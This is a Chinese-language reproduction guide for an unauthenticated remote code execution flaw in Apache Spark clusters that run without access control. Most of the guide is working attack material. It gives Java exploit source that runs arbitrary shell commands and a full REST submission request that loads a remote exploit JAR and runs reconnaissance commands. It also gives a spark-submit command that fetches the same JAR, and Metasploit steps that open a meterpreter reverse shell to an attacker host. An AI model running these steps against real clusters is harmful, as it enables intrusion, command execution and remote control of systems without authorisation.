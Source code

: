 Apache Spark 未授权访问漏洞
===========================

一、漏洞简介
------------

Apache
Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

二、漏洞影响
------------

三、复现过程
------------

### 方法一

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

-   利用REST API
-   利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，

    import java.io.BufferedReader;
    import java.io.InputStreamReader;

    public class Exploit {
      public static void main(String[] args) throws Exception {
        String[] cmds = args[0].split(",");

        for (String cmd : cmds) {
          System.out.println(cmd);
          System.out.println(executeCommand(cmd.trim()));
          System.out.println("==============================================");
        }
      }

      // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
      private static String executeCommand(String command) {
        StringBuilder output = new StringBuilder();

        try {
          Process p = Runtime.getRuntime().exec(command);
          p.waitFor();
          BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

          String line;
          while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
          }
        } catch (Exception e) {
          e.printStackTrace();
        }

        return output.toString();
      }
    }

将其编译成JAR，放在任意一个HTTP或FTP上，如

`https://download.0-sec.org/Web安全/Apache Spark/Apache Spark 未授权访问漏洞.jar`。

#### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

    POST /v1/submissions/create HTTP/1.1
    Host: www.0-sec.org:6066
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Content-Type: application/json
    Connection: close
    Content-Length: 680

    {
      "action": "CreateSubmissionRequest",
      "clientSparkVersion": "2.3.1",
      "appArgs": [
        "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
      ],
      "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
      "environmentVariables": {
        "SPARK_ENV_LOADED": "1"
      },
      "mainClass": "Exploit",
      "sparkProperties": {
        "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
        "spark.driver.supervise": "false",
        "spark.app.name": "Exploit",
        "spark.eventLog.enabled": "true",
        "spark.submit.deployMode": "cluster",
        "spark.master": "spark://your-ip:6066"
      }
    }

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

![1.png](./resource/ApacheSpark未授权访问漏洞/media/rId26.png)

返回的包中有submissionId，然后访问`http://www.0-sec.org:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![2.png](./resource/ApacheSpark未授权访问漏洞/media/rId27.png)

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

#### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

    bin/spark-submit --master spark://www.0-sec.org:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest
api来提交应用；如果发现不是rest服务器，则会降级到使用submission
gateway来提交应用。

查看结果的方式与前面一致。

### 方法二

    msf5> use exploit/linux/http/spark_unauth_rce
    msf5> set payload java/meterpreter/reverse_tcp
    msf5> set rhost 被攻击ip
    msf5> set rport 6066
    msf5> set lhost 攻击ip
    msf5> set lport 4444
    msf5> set srvhost 1攻击ip
    msf5> set srvport 8080
    msf5> exploit

![1.png](./resource/ApacheSpark未授权访问漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/spark/unacc/
